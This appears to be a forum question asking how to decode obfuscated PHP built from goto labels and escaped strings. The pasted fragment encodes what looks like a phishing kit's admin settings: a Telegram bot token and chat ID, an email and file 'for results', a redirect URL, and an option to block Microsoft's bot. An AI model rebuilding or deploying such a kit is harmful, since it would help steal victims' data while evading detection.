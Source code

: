 
# How to decode this goto

What is this numbers name ?hash or what is this ?
header("\110\124\124\x50\x2f\x31\x2e\x30\40\x34\60\x34\x20\x4e\x6f\164\40\106\157\x75\156\144");
How to decode this values of numbers?
goto S_O42; cZvRL: echo $MxiEw["\x61\160\151"]; goto NPM4C; PpDWs: header("\114\x6f\x63\x61\164\x69\x6f\156\x3a\x20\151\x6e\x64\145\170\x2e\160\150\160"); goto u1Nkz; vmCBP: $CxSlv = "\73\x59\x6f\165\x72\40\x62\x6f\164\x20\x74\157\153\x65\x6e\x20\150\x65\x72\145\xd\xa\142\x6f\x74\75\42\x25\x73\x22\xd\12\x3b\131\157\165\x72\40\x43\x68\141\x74\x20\x49\x64\40\x68\x65\162\x65\xd\xa\x63\150\x61\x74\75\x22\45\163\x22\15\12\x3b\x4e\141\155\x65\x20\131\x6f\165\40\x63\x61\156\40\x63\150\141\156\147\x65\x20\x79\x6f\x75\x72\40\156\141\155\145\x20\150\x65\162\145\xd\12\156\141\x6d\x65\75\x22\45\163\x22\15\xa\73\x79\157\165\x72\x20\x61\144\x6d\151\x6e\x20\x70\x61\x6e\x65\x6c\x20\x70\x61\x73\163\167\x6f\x72\x64\xd\xa\x70\x61\x73\163\x77\157\162\x64\x3d\42\x25\x73\42\15\xa\x3b\131\x6f\x75\x72\x20\x65\x6d\x61\x69\x6c\x20\146\x6f\x72\40\162\145\163\x75\154\164\163\x20\x68\x65\x72\x65\xd\xa\x65\x6d\x61\x69\x6c\75\47\x25\163\47\x3b\xd\12\73\x59\x6f\165\x72\x20\122\x65\144\151\x72\x65\143\x74\x20\x55\x72\x6c\x20\110\145\x72\x65\15\12\146\151\156\151\x73\150\x3d\x22\x25\163\42\xd\12\x3b\124\157\x20\x73\145\x6e\144\x20\x76\x69\163\151\x74\163\40\x6f\162\x20\x6e\x6f\164\40\x31\57\60\xd\xa\163\145\156\x64\x5f\166\x69\163\x69\164\x3d\x22\45\163\x22\15\12\73\124\x6f\40\142\154\x6f\x63\x6b\x20\x6d\x69\x63\x72\157\163\157\146\164\x20\142\x6f\164\x20\163\x65\x74\x20\x74\157\x20\x31\xd\xa\x62\154\157\x63\153\x5f\x62\157\164\x3d\x22\x25\163\x22\xd\xa\73\x59\157\165\162\x20\146\x69\154\145\x20\156\141\155\x65\x20\164\x6f\40\x73\141\x76\145\40\x79\157\x75\x72\40\162\x65\163\165\154\164\163\xd\12\x72\145\x73\x75\154\164\163\137\x66\151\154\x65\75\x22\x25\163\42\xd\xa\x3b\131\x6f\165\162\x20\141\x70\151\40\x6b\145\171\40\150\145\162\145\54\171\157\165\x20\x63\x61\156\x20\x67\145\164\40\157\x6e\145\x20\146\x72\x6f\155\x20\x40\146\x69\163\150\145\162\163\164\x65\154\154\xd\12\x61\x70\x69\75\x22\45\x73\42"; goto tOWu2; S_O42: session_start(); goto jMp2A; zyGHZ: Ozg5B: goto lH6gN; rcshr: echo $MxiEw["\x62\x6f\164"]; goto yQqSY; TmRKR: if (!(isset($_POST["\x62\157\164"]) && isset($_POST["\160\141\163\163\x77\157\162\x64"])
How to decode this values

        